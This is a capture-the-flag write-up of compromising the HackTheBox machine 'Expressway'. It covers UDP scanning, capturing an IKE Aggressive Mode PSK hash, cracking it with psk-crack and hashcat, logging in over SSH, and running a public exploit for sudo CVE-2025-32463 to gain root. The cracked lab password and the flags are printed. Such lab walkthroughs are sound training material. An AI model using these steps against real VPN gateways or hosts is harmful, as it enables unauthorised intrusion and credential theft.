# Expressway (Linux)

---

## Overview

This report documents my exploitation of the **Expressway** machine on HackTheBox.
The attack path involved:

- Discovering an exposed ISAKMP (IKE) service over UDP
- Extracting and cracking an IKE PSK hash
- Using the recovered PSK to authenticate over SSH
- Performing local privilege escalation by exploiting a vulnerable sudo version
- Gaining root access and retrieving both user and root flags

The compromise reflects weaknesses in VPN configuration, cryptographic key management, and outdated system components.

---

## Reconnaissance

I began with a full TCP port scan:

```
sudo nmap 10.129.8.198 -p-
```

Only port **22** (SSH) was open.



I followed up with a service and default script scan: 

```
sudo nmap 10.129.8.198 -p 22 -sV -sC
```

The host was running **OpenSSH 10.0p2** on Linux.




I run some targeted SSH scripts with NSE:

```
sudo nmap 10.129.8.198 -p 22 --script ssh*
```

NSE SSH scripts returned no useful misconfigurations or weaknesses. 

Because the TCP footprint was minimal, I proceeded with a full UDP scan:

```
sudo nmap -p- -sU 10.129.8.198 --max-retries 0 --min-rate=3000
```

This identified UDP port **500** open, running **ISAKMP**, a key exchange protocol used in IPsec VPN deployments. This service aligned with the machine name "Expressway", suggesting a VPN or tunneling theme.



---

## Service Enumeration

To enumerate the VPN gateway, I used **ike-scan**, a tool designed for fingerprinting IKE configurations.

```
sudo apt install ike-scan
sudo ike-scan -A 10.129.8.198
```



The scan revealed some interesting information:

| Type              | Value                 |
| ----------------- | --------------------- |
| `IKE ID`          | `ike@expressway.htb`  |
| `PSK`             | `20-byte SHA1`        |
| `Encryption`      | `3DES/SHA1`           |
| `DH Group`        | `modp1024`            |


To extract the raw PSK hash for offline cracking:

```
sudo ike-scan -A --pskcrack=ike_hash.txt 10.129.8.198
```

First, I ensured the RockYou wordlist was decompressed:

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

I then attempted cracking using **psk-crack**:

```
psk-crack ike_hash.txt -d /usr/share/wordlists/rockyou.txt
```

The PSK was succesfully recovered! 



As an alternative, **Hashcat** also supports this hash type (mode 5400):

```
hashcat -a 0 -m 5400 ike_hash.txt /usr/share/wordlists/rockyou.txt
```



Recovered Credentials:

| Type              | Value                        |
| ----------------- | ---------------------------- |
| `IKE ID`          | `ike@expressway.htb`         |
| `PSK`             | `freakingrockstarontheroad`  |


---

## Initial Access

With the recovered PSK and IKE identity, I attempted SSH access:

```
ssh ike@expressway.htb
```



The connection initially failed due to missing host resolution. I added the hostname to **/etc/hosts**:

```
echo "10.129.8.198 expressway.htb" | sudo tee -a /etc/hosts
```

Retrying the SSH connection:

```
ssh ike@expressway.htb
```

I successfully authenticated and obtained a user shell.



The first flag was located in the home directory in a file called **user.txt**:

```
cat ~/user.txt
```

User Flag:

```
6e42b743d77c11b2093c7b7d9d50be82
```



---

## Privilege Escalation

I attempted to search for the root flag:

```
sudo find / -type f -name "root.txt"
```

However, the user had no sudo privileges.



Checking the sudo version:

```
sudo --version
```

The system ran sudo **1.9.17**, which is vulnerable to CVE-2025-32463, a local privilege escalation flaw. I obtained a public exploit script from **Exploit-DB (ID 52352)** and saved it as **exploit.sh**.



After making it executable:

```
chmod +x exploit.sh
./exploit.sh
```

This successfully elevated the session to root.



---

## Post Exploitation

With root access, I searched again for the root flag:

```
find / -type f -name "root.txt"
cat /root/root.txt
```

Root flag:

```
8166012fba651db48de9db1d70193b03
```



---

## Conclusion

The Expressway machine was compromised through:

- UDP enumeration revealing an ISAKMP service.
- IKE Aggressive Mode to capture a PSK hash.
- Offline cracking of the PSK using a common wordlist.
- Using the recovered credentials to authenticate via SSH.
- Exploiting a vulnerable version of sudo (CVE-2025-32463) for root privilege escalation.
